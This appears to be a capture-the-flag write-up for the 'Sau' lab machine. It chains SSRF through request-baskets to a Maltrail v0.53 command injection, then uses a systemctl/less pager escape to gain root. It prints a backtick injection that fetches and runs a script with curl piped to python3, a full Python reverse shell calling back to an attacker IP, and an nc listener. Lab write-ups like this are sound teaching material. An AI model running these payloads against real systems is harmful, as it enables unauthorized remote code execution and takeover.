

# Sau

## Enum
```bash
nmap -Pn -sC -sV 10.10.11.224 -oN scans/nmap.initial

Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 20:29 IST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:29 (0:00:17 remaining)
Stats: 0:01:19 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:31 (0:01:18 remaining)
Stats: 0:01:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:32 (0:01:23 remaining)
Stats: 0:01:29 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 20:30 (0:00:00 remaining)
Nmap scan report for 10.10.11.224
Host is up (0.030s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 20 Jul 2023 19:29:48 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 20 Jul 2023 19:29:23 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 20 Jul 2023 19:29:23 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=7/20%Time=64B98B12%P=aarch64-unknown-linux-g
SF:nu%r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/
SF:html;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2020\x20J
SF:ul\x202023\x2019:29:23\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20hre
SF:f=\"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.
SF:0\x20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2020\x20J
SF:ul\x202023\x2019:29:23\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-
SF:8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionRe
SF:q,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nDate:\x20Thu,\x2020\x20Jul\x202023\x2019:29:48\x2
SF:0GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\
SF:x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,2
SF:50}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.35 seconds
```
```bash
curl -I 10.10.11.224:55555
HTTP/1.1 405 Method Not Allowed
Allow: GET, OPTIONS
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
Date: Thu, 20 Jul 2023 19:33:20 GMT
Content-Length: 19
```
```bash
curl -i 10.10.11.224:55555
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: /web
Date: Thu, 20 Jul 2023 19:34:09 GMT
Content-Length: 27

<a href="/web">Found</a>.
```
```bash
grep -v 400 dirsearch
[11:07:57] 200 -    0B  - /login
[11:07:57] 200 -    0B  - /login/admin/
[11:07:57] 200 -    0B  - /login/
[11:07:57] 200 -    0B  - /login/administrator/
[11:07:57] 200 -    0B  - /login/admin/admin.asp
[11:07:57] 200 -    0B  - /login/cpanel.html
[11:07:57] 200 -    0B  - /login/cpanel/
[11:07:57] 200 -    0B  - /login/cpanel.php
[11:07:57] 200 -    0B  - /login/login
[11:07:57] 200 -    0B  - /login/index
[11:07:57] 200 -    0B  - /login/oauth/
[11:07:57] 200 -    0B  - /login/cpanel.jsp
[11:07:57] 200 -    0B  - /login/cpanel.aspx
[11:07:57] 200 -    0B  - /login/cpanel.js
[11:07:57] 200 -    0B  - /login/super
[11:08:03] 200 -    0B  - /test
[11:08:03] 200 -    0B  - /test/tmp/
[11:08:03] 200 -    0B  - /test/
[11:08:03] 200 -    0B  - /test/version_tmp/
[11:08:03] 200 -    0B  - /test/reports
[11:08:04] 301 -   39B  - /web/  ->  /web
[11:08:04] 301 -   47B  - /web/bundles/  ->  /web/bundles
[11:08:04] 301 -   47B  - /web/uploads/  ->  /web/uploads
[11:08:04] 301 -   50B  - /web/phpMyAdmin/  ->  /web/phpMyAdmin
```
```bash
grep api bundles
        url: "/api/baskets/bundles/requests?skip=" + fetchedCount,
        url: "/api/baskets/bundles/requests?max=0",
        url: "/api/baskets/bundles/responses/" + method,
        url: "/api/baskets/bundles/responses/" + method,
          url: "/api/baskets/bundles",
        url: "/api/baskets/bundles",
        url: "/api/baskets/bundles/requests",
        url: "/api/baskets/bundles",

```

The api can be used to see the existing requests in the basket
```bash
curl -s \
  -H 'Authorization: 8EwBDYGHGS_Bi8v4nuGqVu-Aqj6mSMQqVWILQiTI6zC-' \
  http://10.10.11.224:55555/api/baskets/asdf/requests \
|jq .
```
```json
{
  "requests": [
    {
      "date": 1689934004387,
      "headers": {
        "Accept": [
          "*/*"
        ],
        "User-Agent": [
          "curl/7.88.1"
        ]
      },
      "content_length": 0,
      "body": "",
      "method": "POST",
      "path": "/asdf",
      "query": ""
    },
    {
      "date": 1689933982738,
      "headers": {
        "Accept": [
          "*/*"
        ],
        "User-Agent": [
          "curl/7.88.1"
        ]
      },
      "content_length": 0,
      "body": "",
      "method": "GET",
      "path": "/asdf",
      "query": ""
    }
  ],
  "count": 2,
  "total_count": 2,
  "has_more": false
}
```

Existing requests in the basket can be inspected like this
```bash
curl -s \
  -H 'Authorization: 8EwBDYGHGS_Bi8v4nuGqVu-Aqj6mSMQqVWILQiTI6zC-' \
  http://10.10.11.224:55555/api/baskets/asdf/responses/GET \
|jq .
```
```json
{
  "status": 200,
  "headers": {},
  "body": "",
  "is_template": false
}
```
```bash
curl -s \
  -H 'Authorization: 8EwBDYGHGS_Bi8v4nuGqVu-Aqj6mSMQqVWILQiTI6zC-' \
  http://10.10.11.224:55555/api/baskets/asdf/responses/POST \
|jq .
```
```json
{
  "status": 200,
  "headers": {},
  "body": "",
  "is_template": false
}
```

The expected response for the requests in the basket can be modified
```bash
curl -X PUT -s \
  -i \
  --proxy http://localhost:8080 \
  -H 'Authorization: 8EwBDYGHGS_Bi8v4nuGqVu-Aqj6mSMQqVWILQiTI6zC-' \
  http://10.10.11.224:55555/api/baskets/asdf/responses/GET \
  -d '{
    "status": 200,
    "body": "zoinks",
    "is_template": false,
    "headers": {}
}'
```
```
HTTP/1.1 204 No Content
Date: Fri, 21 Jul 2023 10:36:30 GMT
Connection: close
```

```bash
curl -s \
  -H 'Authorization: 8EwBDYGHGS_Bi8v4nuGqVu-Aqj6mSMQqVWILQiTI6zC-' \
  http://10.10.11.224:55555/api/baskets/asdf/responses/GET \
|jq .
```
```
{
  "status": 200,
  "headers": {},
  "body": "zoinkers",
  "is_template": false
}
```

Once modified they will respond as per edited behaviour
```bash
curl http://10.10.11.224:55555/asdf
```
```
zoinkers
```

## SSRF

Using the settings, we can also configure a forwarding url:  
  

If we point that forwarding url to a server we own for the test, this lets us do some SSRF:
```bash
cat index.html
<h1>zoinkers</h1>
```
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.224 - - [12/Aug/2023 16:50:00] "GET / HTTP/1.1" 200 -
```
```bash
curl -XGET \
  http://10.10.11.224:55555/rkd1z4i
<h1>zoinkers</h1>
```

Of course the next logical step is to try and look at what was behind that filter port 80  
  

And there is the maltrail instance, the version is `v0.53`
```bash
curl -I http://10.10.11.224:55555/rkd1z4i
HTTP/1.1 501 Not Implemented
Connection: close
Content-Length: 497
Content-Type: text/html;charset=utf-8
Date: Sat, 12 Aug 2023 16:04:27 GMT
Server: Maltrail/0.53
```
  

## Command injection in `Maltrail`

A quick google search brings us here [https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)  

```bash
curl http://10.10.11.224:55555/rkd1z4i/login --data 'username=;`ping -c1 10.10.14.218`'
Login failed
```
```bash
sudo tcpdump -i tun0 -v icmp
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:08:52.403337 IP (tos 0x0, ttl 63, id 65247, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.11.224 > 10.10.14.218: ICMP echo request, id 2, seq 1, length 64
17:08:52.403451 IP (tos 0x0, ttl 64, id 58401, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.218 > 10.10.11.224: ICMP echo reply, id 2, seq 1, length 64
```

```bash
curl http://10.10.11.224:55555/7uexepx/login --data 'username=;`curl http://10.10.14.218/python.py|python3`'
```
```bash
cat python.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.218",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.224 - - [12/Aug/2023 17:40:33] "GET /python.py HTTP/1.1" 200 -
```
```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.218] from (UNKNOWN) [10.10.11.224] 41724
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

## Privesc with less escape

We can run systemctl status, which doesn't seem very useful at first.
```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

But because the pager used by systemctl is less, we can do a simple escape from it an get a shell
```bash
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2023-08-12 16:17:56 UTC; 22min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 882 (python3)
      Tasks: 9 (limit: 4662)
     Memory: 72.1M
     CGroup: /system.slice/trail.service
             ├─ 882 /usr/bin/python3 server.py
             ├─1189 /bin/sh -c logger -p auth.info -t "maltrail[882]" "Failed p>
             ├─1190 /bin/sh -c logger -p auth.info -t "maltrail[882]" "Failed p>
             ├─1192 python3
             ├─1193 sh
             ├─1195 sudo /usr/bin/systemctl status trail.service
             ├─1196 /usr/bin/systemctl status trail.service
             └─1197 pager

Aug 12 16:35:53 sau sudo[1172]: pam_unix(sudo:session): session closed for user>
Aug 12 16:36:23 sau sudo[1174]:     puma : TTY=unknown ; PWD=/opt/maltrail ; US>
Aug 12 16:36:23 sau sudo[1174]: pam_unix(sudo:session): session opened for user>
Aug 12 16:36:23 sau sudo[1174]: pam_unix(sudo:session): session closed for user>
Aug 12 16:37:19 sau sudo[1176]:     puma : TTY=unknown ; PWD=/opt/maltrail ; US>
lines 1-23
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
